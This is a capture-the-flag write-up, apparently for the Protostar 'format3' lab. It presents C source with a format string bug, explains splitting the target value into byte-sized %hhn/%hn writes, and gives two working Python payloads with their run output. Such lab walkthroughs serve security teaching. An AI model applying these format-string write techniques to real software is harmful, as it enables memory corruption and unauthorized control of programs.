 # FORMAT 3

# SOURCE CODE

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void printbuffer(char *string)
{
  printf(string);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printbuffer(buffer);                         // <- Format String Vuln
  
  if(target == 0x01025544) {
      printf("you have modified the target :)\n");
  } else {
      printf("target is %08x :(\n", target);
  }
}

int main(int argc, char **argv)
{
  vuln();
}
```

## OVERVIEW & IDEA

- First thing we can see of the source code is the code has format string vulnerability. And The chall asked us to modifide the target to 0x01025544. So we'll use format string to write on content of target, change it 0x01025544.

## DETAIL

- Like format 2, I just go through a bunch of old stuff to get the address of target, index of buffer. And I found:

```
address of target: 0x80496f4
index of buffer  : 12
```

- We can directly write 0x01025544 to target, but in some chall, the value can be too large to one-shot write. It's a good practice to solve this chall by separate the number of byte to write on.

- Because the value we write on address is size of string that we'll print, and this size can only increase the size of stay the same size, so we sperate the byte to write, it can be a permutation of `{2, 1, 1}` or just `{2, 2}`, then we specify the order of byte to write from smallest to largest, the next and just use `%hhn %hn` to write.

- In this chall, I will seperate 0x01025544 to `2-1-1` `{0x0102, 0x55, 0x44}`, then write with order `0x44 -> 0x55 - 0x44 -> 0x0102 - 0x55` into `0x80496f4 -> 0x80496f5 -> 0x80496f6`. We print `0x55 - 0x44` bytes after `0x44` because the previous print we have already print `0x44` bytes, so the next print we just only print the remain to output that reach the printed string to `0x55` bytes, and so on....

## EXPLOIT

```python
# filename: exp1.py

payload = "\xf4\x96\x04\x08"
payload += "%16930112c%12$n" # 0x01025544 - 4

print(payload)

# python exp1.py | ./format3
```

```python
# filename: exp2.py
payload = "\xf4\x96\x04\x08"
payload += "\xf5\x96\x04\x08"
payload += "\xf6\x96\x04\x08"

payload += "%56c%12$hhn"  # 0x44-0x0c = 56 because we have already printed 12 bytes address.
payload += "%17c%13$hhn"  # 0x55-0x44 = 17
payload += "%173c%14$hn"  # 0x0102 - 0x55 = 173 

print(payload)

# python exp2.py | ./format3
```

## RESULT

- exp1.py

```
root@protostar:/opt/protostar/bin# python exp1.py | ./format3

.. a really really large of space ..

you have modified the target :)
```

- exp2.py

```
root@protostar:/opt/protostar/bin# python exp2.py | ./format3
�����                                                                       �
                                                                               �
you have modified the target :)
```